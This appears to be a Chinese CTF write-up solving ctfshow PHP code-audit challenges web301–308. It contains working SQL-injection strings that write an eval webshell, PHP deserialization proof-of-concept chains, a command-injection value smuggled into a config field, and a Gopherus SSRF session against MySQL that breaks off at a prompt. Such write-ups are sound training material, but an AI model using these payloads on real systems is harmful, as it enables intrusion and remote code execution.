+++
title = "ctfshow代码审计"
slug = "ctfshow-code-audit"
description = "最最最基础的php待审"
date = "2024-10-08T14:06:33"
lastmod = "2024-10-08T14:06:33"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php"]
+++

# web301

进来之后就看到一个函数`sds_decode`，但是在这个文件里面都没找到利用这个函数的地方，然后发现sql注入直接写入木马



```
POST:
userid=a'union select '<?php eval(\$_POST[a]);?>'into outfile "/var/www/html/a.php"%23&userpwd=a
```

这里直接写的时候发现不能用，写是写进去了，那么转义一下就可以了

# web302

没看出来和上道有什么区别一样的写马就行了

# web303



一个`insert`注入，但是要登录一下

```
admin\admin
```

然后注入，我想着一样的，但是insert注入不能有union，只有第一个参数不行

```sql
dpt_name=a',sds_address =(select group_concat(table_name) from information_schema.tables where table_schema=database())%23
sds_dpt,sds_fl9g,sds_user

dpt_name=a',sds_address =(select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g')%23
flag

dpt_name=a',sds_address =(select flag from sds_fl9g)%23
```

# web304

题目说是增加了`waf`但是我只看到`fun.php`有变动，所以还是上面的注入即可

# web305

一进来就看到class.php可以写文件



然后发现注入的时候上防火墙了，不能注入了，然后我们就找`unserialize`，发现在这里



写个poc

```php
<?php
class user{
	public $username="a.php";
	public $password="<?php eval(\$_POST[a]);?>";
	
}
$a=new user();
echo urlencode(serialize($a));
```

```
GET /login.php HTTP/1.1
Host: 146fed3e-4762-4bb7-bb17-b9ad4d95a128.challenge.ctf.show
Cookie: PHPSESSID=jl2njoaoc5ah8hdioqfci5q1rm;user=O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22a.php%22%3Bs%3A8%3A%22password%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5Ba%5D%29%3B%3F%3E%22%3B%7D
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Sec-Fetch-User: ?1
Priority: u=0, i
Connection: close


```

不知道为什么会重定向到`login.php`，不过这里也成功写入了

找了一会没找到，链接`antsword`还是没有找到，然后链接数据库找到了

# web306

`index.php`发现`unserialize`，`login.php`也有



然后找链子





看懂了吧，写个`poc`

```php
<?php
class dao{
	private $config;
	public $conn;
}
class log{
	public $title;
	public $info;

}
$a=new dao();
$a->conn=new log();
$a->conn->title="b.php";
$a->conn->info="<?php eval(\$_POST[a]);?>";
$b=urlencode(serialize($a));
//echo $b;
$c=str_replace("4%3A%22conn","9%3A%22%00dao%00conn",$b);
echo base64_encode(urldecode($c));
```

这里写法比较特殊，由于`private`这个修饰词，刚才我还卡了一会因为我直接换成`public`了，还是挺折磨的，所以还是直接用魔术方法比较方便

```php
<?php
class dao{
	private $config;
	private $conn;
    public function __construct(){
        $this->conn=new log();
    }
}
class log{
	public $title="c.php";
	public $info="<?php eval(\$_POST[a]);?>";

}
$a=new dao();
echo base64_encode(serialize($a));
```

# web307



拼接命令就可以了，找`unserialize`，发现`login`\\`dptadd`\\`dpt`\\`layout`都有





找一下触发点



所以是两条链子，一个打`service`一个打`dao`

第一条

```php
<?php
class service{
	private $dao;
	public function __construct(){
        $this->dao=new dao();
    }
}
class dao{
	private $config;
	private $conn;
	public function __construct(){
        $this->config=new config();
    }

}
class config{
	
	public $cache_dir = ';echo "<?php eval(\$_POST[a]);?>" > /var/www/html/a.php;';
}
$a=new service();
echo base64_encode(serialize($a));
```

第二条

```php
<?php
class dao{
	private $config;
	private $conn;
	public function __construct(){
        $this->config=new config();
    }

}
class config{
	
	public $cache_dir = ';echo "<?php eval(\$_POST[a]);?>" > /var/www/html/a.php;';
}
$a=new dao();
echo base64_encode(serialize($a));
```

# web308







这里可以打一个`ssrf`，去看看端口开的那个，打`MySQL`

```
gopherus://127.0.0.1:3306
```

把上面的写进`poc`，发现延时写个`poc`

```shell
┌──(kali㉿kali)-[~/桌面/tools/Gopherus-master/Gopherus-master]
└─$ ./gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!
                                                                                                                                                           
Give MySQL username: root                                                                                                                                  
